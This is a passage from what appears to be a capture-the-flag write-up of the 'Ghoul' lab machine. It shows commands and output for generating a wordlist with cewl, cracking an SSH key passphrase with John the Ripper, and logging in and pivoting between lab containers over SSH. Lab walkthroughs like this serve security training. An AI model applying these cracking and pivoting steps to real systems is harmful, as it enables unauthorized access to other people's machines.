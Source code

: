 
I’ll play with running `cewl` on various pages Ghoul and see if it turns out
the password. The wordlist from `/secrets.php` works:

    
    
    root@kali# cewl http://10.10.10.101/secret.php -w secrets.wordlist
    CeWL 5.4.4.1 (Arkanoid) Robin Wood (robin@digi.ninja) (https://digi.ninja/) 
    
    root@kali# /opt/john/run/john -wordlist=secrets.wordlist id_rsa_ghoul_kaneki.john 
    Using default input encoding: UTF-8
    Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
    Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
    Cost 2 (iteration count) is 1 for all loaded hashes
    Will run 3 OpenMP threads
    Note: This format may emit false positives, so it will keep trying even after
    finding a possible candidate.
    Press 'q' or Ctrl-C to abort, almost any other key for status
    ILoveTouka       (id_rsa_ghoul_kaneki)
    1g 0:00:00:00 DONE (2019-05-24 04:26) 100.0g/s 11000p/s 11000c/s 11000C/s made..moment
    Session completed
    

Perhaps Kaneki accidentally pasted his password into the chat:

![1558686439183](https://0xdfimages.gitlab.io/img/1558686439183.png)

### SSH to kaneki-pc

The password gives me access to the key, which I can use to ssh into this
container as kaneki:

    
    
    root@kali# ssh -i ~/id_rsa_ghoul_kaneki kaneki@10.10.10.101
    Enter passphrase for key '/root/id_rsa_ghoul_kaneki': 
    Last login: Sun Jan 20 12:33:33 2019 from 172.20.0.1
    kaneki@Aogiri:~$ 
    

I can also use the same key and password, along with the username kaneki_pub
(which I found in the `authorized_keys` file earlier), to ssh to the .150 in
the same subnet:

    
    
    root@Aogiri:/home/kaneki/.ssh# ssh -i id_rsa kaneki_pub@172.20.0.150
    Enter passphrase for key 'id_rsa': 
    Last login: Mon May 27 05:25:08 2019 from 172.20.0.10
    kaneki_pub@kaneki-pc:~$
    

## Pivot to gogs

### Local Enumeration

In the home folder there’s a `to-do.txt` that reads:

